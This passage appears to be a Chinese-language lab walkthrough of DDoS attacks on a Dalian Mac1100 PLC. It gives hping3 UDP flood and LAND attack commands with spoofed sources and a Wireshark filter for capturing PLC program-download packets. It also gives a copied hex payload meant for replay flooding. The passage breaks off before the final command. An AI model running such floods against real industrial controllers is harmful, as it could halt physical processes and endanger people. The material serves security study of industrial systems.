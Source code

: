 ### 3.11 DDoS 攻击 - UDP Flood 攻击

    hping3 --udp -s 6666 -p 53 -a 8.8.8.8 --flood 192.168.100.1

![](https://image.3001.net/images/20200315/1584271792_5e6e11b04f868.png!small)

### 3.12 DDoS 攻击 - LAND 攻击

    hping3 -n -S -p 80 -a 192.168.100.1 --flood 192.168.100.1

![](https://image.3001.net/images/20200315/1584271802_5e6e11ba9c47b.png!small)

## 四、攻击环境

> 攻击机 1：Win7 192.168.1.88
>
> 攻击机 2：Kali 192.168.1.182
>
> 靶机 PLC：大工 Mac1100 系列 192.168.1.181
>
> 软件：PLC_Config、Wireshark、Hping3、tcpdump

## 五、攻击过程

**1. 首先要使得 PLC_Config 组态软件连接 PLC，具体步骤可参考《MAC 系列可编程控制器使用手册 V2.0.pdf》**

> PDF 下载链接：[http://www.dcce.cn/DownLoadFiles/MAC%E7%B3%BB%E5%88%97%E5%8F%AF%E7%BC%96%E7%A8%8B%E6%8E%A7%E5%88%B6%E5%99%A8%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8CV2.0.pdf](http://www.dcce.cn/DownLoadFiles/MAC%E7%B3%BB%E5%88%97%E5%8F%AF%E7%BC%96%E7%A8%8B%E6%8E%A7%E5%88%B6%E5%99%A8%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8CV2.0.pdf)

![](https://image.3001.net/images/20200315/1584271812_5e6e11c44635a.png!small)

上图可以看到 PLC 控制器已上线，让 PLC 全速运行。

![](https://image.3001.net/images/20200315/1584271821_5e6e11cd29f23.png!small)

**2. 抓取关键通讯报文**

此处我们以 PLC 程序下载的报文来进行 DDoS 攻击，打开 Wireshark 进行抓包

Wireshark 语法: udp and ip.src == 192.168.1.88 and ip.addr == 192.168.1.181

筛选出 udp 协议、源 IP 为 192.168.1.88、目的 IP 为 192.168.1.181 的数据包

![](https://image.3001.net/images/20200315/1584271852_5e6e11ec00ba8.png!small)

![](https://image.3001.net/images/20200315/1584271859_5e6e11f39101a.png!small)

复制 Data 字段的 Hex Stream：0c00478510000a0000009f0000000000

**3. 使用 Hping3 发起 DDoS 攻击**

Hping3 命令：

